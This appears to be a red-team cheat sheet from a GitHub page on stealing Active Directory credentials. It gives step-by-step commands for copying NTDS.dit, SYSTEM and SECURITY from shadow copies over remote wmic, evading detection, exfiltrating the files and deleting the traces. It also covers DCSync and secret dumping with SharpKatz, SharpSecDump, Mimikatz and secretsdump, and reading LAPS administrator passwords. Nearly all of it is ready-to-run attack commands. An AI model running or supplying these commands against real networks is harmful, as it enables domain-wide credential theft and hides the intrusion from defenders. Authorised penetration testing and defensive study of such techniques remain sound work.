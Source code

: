 #### _NTDS dump via shadow copy:_ 
Instead of dumping the NTDS\.dit file remotely via secretsdump with the likelyhood of being detected, use this technique that focusses on using shadow copies and dumping hashes locally\. 
>This method requires elevated privileges on the target DC\. Furthermore, any remote exection method can be used to run the commands \(in this example wmic is used\)\. 
- 1\. Check for excisting shadow copies: `wmic /node:"<computer>" /user:"<domain>\<username>" /password:"<password>" process call create "cmd /c vssadmin list shadows >> c:\users\public\documents\log.txt"`
- 2\. If not present, create new shadow copy: `wmic /node:"<DC name>" /user:"<domain>\<username>" /password:"<password>" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"`
- 3\. From the shadow copy, copy the ntds\.dit, system and security files: `wmic /node:"<DC name>" /user:"<domain>\<username>" /password:"<password>" process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\users\public\documents\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\users\public\documents\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\users\public\documents\"`
- 4\. \(optional\) pack and encrypt shadow files:
	- 1\. Upload the 7za\.exe standalone binary to the current system\. 
	- 2\. Remotely archive the copied files into a \.zip file: `7za.exe a -tzip -mx5 \\DC01\C$\users\public\docs.zip \\DC01\C$\users\public\documents -pPassword123`
- 5\. Download the docs\.zip file or all the individual files to the local attacker system and delete the ntds\.dit, system, security and docs\.zip files on the target system
- 6\. Locally extract all the hashes \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 secretsdump.py -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL`

#### _Remote secrets dumping:_
- DCSync: 
	- Dump hash of single account \([SharpKatz.exe](https://github.com/b4rtik/SharpKatz)\): SharpKatz --Command dcsync --User <username> --Domain <FQDN> --DomainController <FQDN DC>`
	- Extract all hashes and store them in a file \(can also be used with alternative user creds for authentication\) (SharpKatz): `SharpKatz --Command dcsync --Domain userdomain --DomainController dc (--AuthUser <username> --AuthDomain <domain> --AuthPassword <password>)`
- Remote SAM \+ LSA Secrets dumping:
	- Dump hashes like secretsdump \([SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump)\): `SharpSecDump -target=<target ip> -u=<username> -p=<password> -d=<domain>`
	- [Invoke\-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1): `Invoke-Mimikatz -Computername <target system name> -Command "<mimikatz command>"`
- Dump SAM/LSA/NTDS\.dit/etc\. \(if possible its recommended to use a DC account for this\) \([impacket](https://github.com/SecureAuthCorp/impacket)\): `secretsdump.py "<domain name>/<username>@<IP target>" (-hashes <NTLM>)`

#### _Abusing Local Administrator Password Management Solution \(LAPS\):_
LAPS provides rules for managing passwords for local administrator across computers in the domain\. If a Administrator user password is expired, a new random password is generated and set up and stored in AD as an attribute\. These attributes can be read \(in clear text\) by users with the right privileges \(e\.g\. DA’s\)\.
>It is required to have some sort of read privilege on the target system’s LAPS attribute\. 
- 1\. To idenfity if LAPS is applied to a machine, check if the “ms\-Mcs\-AdmPwdExpirationTime” attribute is not null \(can also be done with BloodHound\) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-DomainObject -SearchBase "LDAP://DC=dev,DC=cyberbotic,DC=io" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname`
- 2\. Check for which local account the LAPS password applies \(this is not always the local Administrator account\)\. If you already on a system with LAPS enabled, check the local users with admin privs or remotely list them\. 
- 3\. Retrieve the password from “ms\-Mcs\-AdmPwd” attributes \(make sure you are in the right context to read the “ms\-Mcs\-AdmPwn” property\):
	- \([C2\-Tool\-Collection-BOF](https://github.com/outflanknl/C2-Tool-Collection)\): `Lapsdump <ip or hostname>`
	- \([SharpLAPS](https://github.com/swisskyrepo/SharpLAPS)\) (CS only): `execute-assembly SharpLAPS.exe /host:<IP DC> (/user:<domain>\<user> /pass:<password>)`
	- \([SharpView](https://github.com/tevora-threat/SharpView)\): `Get-DomainObject -Identity <target machine name> -Properties ms-Mcs-AdmPwd`